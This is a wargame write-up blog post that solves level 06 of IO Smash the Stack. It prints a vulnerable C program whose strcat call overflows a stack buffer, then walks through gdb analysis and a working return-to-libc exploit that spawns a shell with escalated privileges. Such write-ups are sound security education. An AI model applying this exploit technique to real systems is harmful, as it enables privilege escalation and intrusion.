 ```yaml
---
author: alvaro
comments: true
layout: post
title: Level 06 I/O Smash the Stack
categories:
- Archive
tags:
- security
---
```


Those days I have been playing a little bit with [IO Smash the Stack](http://io.smashthestack.org/). By now I am in the level 8.

Today I will explain how I resolved the level06 and the process that I followed. In this level we have the code and it is more large than the previous.

```C
//written by bla
//inspired by nnp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

enum{
LANG_ENGLISH,
LANG_FRANCAIS,
LANG_DEUTSCH,
};

int language = LANG_ENGLISH;

struct UserRecord{
	char name[40];
	char password[32];
	int id;
};

void greetuser(struct UserRecord user){
	char greeting[64];
	switch(language){
		case LANG_ENGLISH:
			strcpy(greeting, "Hi "); break;
		case LANG_FRANCAIS:
			strcpy(greeting, "Bienvenue "); break;
		case LANG_DEUTSCH:
			strcpy(greeting, "Willkommen "); break;
	}
	strcat(greeting, user.name);
	printf("%s\n", greeting);
}

int main(int argc, char **argv, char **env){
	if(argc != 3) {
		printf("USAGE: %s [name] [password]\n", argv[0]);
		return 1;
	}

	struct UserRecord user = {0};
	strncpy(user.name, argv[1], sizeof(user.name));
	strncpy(user.password, argv[2], sizeof(user.password));

	char *envlang = getenv("LANG");
	if(envlang)
		if(!memcmp(envlang, "fr", 2))
			language = LANG_FRANCAIS;
		else if(!memcmp(envlang, "de", 2))
			language = LANG_DEUTSCH;

	greetuser(user);
}
```

What this code does is easy to understand and also it is easy to spot where the vulnerability resides. Is in the function `strcat`. If we go to the `man page`.

>The  strcat() function appends the src string to the dest string, overwriting the terminating null byte ('\0') at the end of dest, and then adds a terminating null byte.  The strings may not overlap, and the dest string must have enough space for the result.  If dest is not large enough, program behavior is unpredictable; buffer overruns  are  a  favorite  avenue  for  attacking secure programs.

>The strncat() function is similar, except that

>    *  it will use at most n bytes from src; and
> 	 *  src does not need to be null-terminated if it contains n or more bytes.

Basically strcat will append the src string until we get the `\0`. How we want to overflow the stack of greeting in the function `greetuser` we should look how the stack looks like when this function is called. To find out we will use `gdb`.

```bash
gdb-peda$ disas greetuser
Dump of assembler code for function greetuser:
   0x0804851c <+0>:	push   ebp
   0x0804851d <+1>:	mov    ebp,esp
   0x0804851f <+3>:	sub    esp,0x58
   0x08048522 <+6>:	mov    eax,ds:0x8049964
   0x08048527 <+11>:	cmp    eax,0x1
   0x0804852a <+14>:	je     0x8048540 <greetuser+36>
   0x0804852c <+16>:	cmp    eax,0x2
   0x0804852f <+19>:	je     0x804855c <greetuser+64>
   0x08048531 <+21>:	test   eax,eax
   0x08048533 <+23>:	jne    0x8048574 <greetuser+88>
   0x08048535 <+25>:	lea    eax,[ebp-0x48]
   0x08048538 <+28>:	mov    DWORD PTR [eax],0x206948
   0x0804853e <+34>:	jmp    0x8048574 <greetuser+88>
   0x08048540 <+36>:	lea    eax,[ebp-0x48]
   0x08048543 <+39>:	mov    DWORD PTR [eax],0x6e656942
   0x08048549 <+45>:	mov    DWORD PTR [eax+0x4],0x756e6576
   0x08048550 <+52>:	mov    WORD PTR [eax+0x8],0x2065
   0x08048556 <+58>:	mov    BYTE PTR [eax+0xa],0x0
   0x0804855a <+62>:	jmp    0x8048574 <greetuser+88>
   0x0804855c <+64>:	lea    eax,[ebp-0x48]
   0x0804855f <+67>:	mov    DWORD PTR [eax],0x6c6c6957
   0x08048565 <+73>:	mov    DWORD PTR [eax+0x4],0x6d6d6f6b
   0x0804856c <+80>:	mov    DWORD PTR [eax+0x8],0x206e65
   0x08048573 <+87>:	nop
   0x08048574 <+88>:	lea    eax,[ebp+0x8]
   0x08048577 <+91>:	mov    DWORD PTR [esp+0x4],eax
   0x0804857b <+95>:	lea    eax,[ebp-0x48]
   0x0804857e <+98>:	mov    DWORD PTR [esp],eax
   0x08048581 <+101>:	call   0x80483d0 <strcat@plt>
   0x08048586 <+106>:	lea    eax,[ebp-0x48]
   0x08048589 <+109>:	mov    DWORD PTR [esp],eax
   0x0804858c <+112>:	call   0x80483f0 <puts@plt>
   0x08048591 <+117>:	leave
   0x08048592 <+118>:	ret
End of assembler dump.
gdb-peda$ b * 0x0804857e  ; Breakpoint before to call strcat
gdb-peda$ r AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBB
gdb-peda$ x/64xw $esp
```

![stackio6](/public/images/stackio6.png)

To exploit this we are going to use the technique [Return Into Lib C](http://insecure.org/sploits/linux.libc.return.lpr.sploit.html). What we have to do is overwrite the return address `0x080486af` with the system address and then build a fake stack such that when we resume the execution at the direction of system it sees a valid stack. It would be as simple as put the direction of exit followed by the direction of the string `/bin/sh`. All these directions can be uncovered with `gdb`.

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7ea9c30 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e9d270 <exit>
gdb-peda$ searchmem /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7faafb4 ("/bin/sh")
```

So the beginning of the `argv[1]` must be the direction of `
exit` and then the direction of the string `/bin/sh` followed by as much data as needed until we reach the return address to overwrite it with the direction of system. To exploit it more easily is better use as language `FRANCAIS` or `DEUTSCH` since that will fill the `greeting` variable with more data. Since with the `english` version the `id` was initialize to `0` making the strcat function stopping when it reaches that value.


```bash
level6@io:/levels$ echo $LANG
en_GB.UTF-8
level6@io:/levels$ LANG=de_GB.UTF-8
level6@io:/levels$ echo $LANG
de_GB.UTF-8
```

And finally we get a fresh shell calling it as follows.

```bash
level6@io:/levels$ ./level06 `python -c 'print "\x70\xd2\xe9\xb7" + "\xb4\xaf\xfa\xb7" + "A"*32'` `python -c 'print "B"*25 + "\x30\x9c\xea\xb7"'`
Willkommen p�鷴��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBB0��
sh-4.2$ id
uid=1006(level6) gid=1006(level6) euid=1007(level7) groups=1007(level7),1006(level6),1029(nosu)
sh-4.2$
```
{% include twitter_plug.html %}
